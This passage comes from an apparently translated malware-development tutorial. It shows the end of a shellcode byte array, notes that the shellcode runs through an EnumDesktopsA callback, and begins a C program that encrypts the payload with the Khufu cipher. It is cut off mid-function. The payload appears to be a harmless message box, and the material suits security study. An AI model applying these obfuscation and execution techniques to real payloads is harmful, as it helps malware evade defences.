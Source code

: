 ```cpp
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

и запустил его, передав его как функцию обратного вызова в `EnumDesktopsA`.

Полный исходный код выглядит так (`hack.c`):

```cpp
/*
* hack.c
* encrypt/decrypt payload 
* via Khufu algorith
* author: @cocomelonc
* https://cocomelonc.github.io/malware/2024/07/21/malware-cryptography-30.html
*/
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <stdlib.h>
#include <windows.h>

#define ROUNDS 16
#define BLOCK_SIZE 8
#define KEY_SIZE 64

uint8_t key[KEY_SIZE] = {
  0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07,
  0x08, 0x09, 0x0A, 0x0B, 0x0C, 0x0D, 0x0E, 0x0F,
  0x10, 0x11, 0x12, 0x13, 0x14, 0x15, 0x16, 0x17,
  0x18, 0x19, 0x1A, 0x1B, 0x1C, 0x1D, 0x1E, 0x1F,
  0x20, 0x21, 0x22, 0x23, 0x24, 0x25, 0x26, 0x27,
  0x28, 0x29, 0x2A, 0x2B, 0x2C, 0x2D, 0x2E, 0x2F,
  0x30, 0x31, 0x32, 0x33, 0x34, 0x35, 0x36, 0x37,
  0x38, 0x39, 0x3A, 0x3B, 0x3C, 0x3D, 0x3E, 0x3F
};

uint32_t sbox[256];

void khufu_generate_sbox(uint8_t *key, int round) {
  for (int i = 0; i < 256; i++) {
    sbox[i] = (key[(round * 8 + i) % KEY_SIZE] << 24) |
          (key[(round * 8 + i + 1) % KEY_SIZE] << 16) |
          (key[(round * 8 + i + 2) % KEY_SIZE] << 8) |
          key[(round * 8 + i + 3) % KEY_SIZE];
  }
}

void khufu_encrypt(uint8_t *block, uint8_t *key) {
  uint32_t left = ((uint32_t)block[0] << 24) | ((uint32_t)block[1] << 16) | 
  ((uint32_t)block[2] << 8) | (uint32_t)block[3];
  uint32_t right = ((uint32_t)block[4] << 24) | ((uint32_t)block[5] << 16) | 
  ((uint32_t)block[6] << 8) | (uint32_t)block[7];

  left ^= ((uint32_t)key[0] << 24) | ((uint32_t)key[1] << 16) | 
  ((uint32_t)key[2] << 8) | (uint32_t)key[3];
  right ^= ((uint32_t)key[4] << 24) | ((uint32_t)key[5] << 16) | 
  ((uint32_t)key[6] << 8) | (uint32_t)key[7];

```
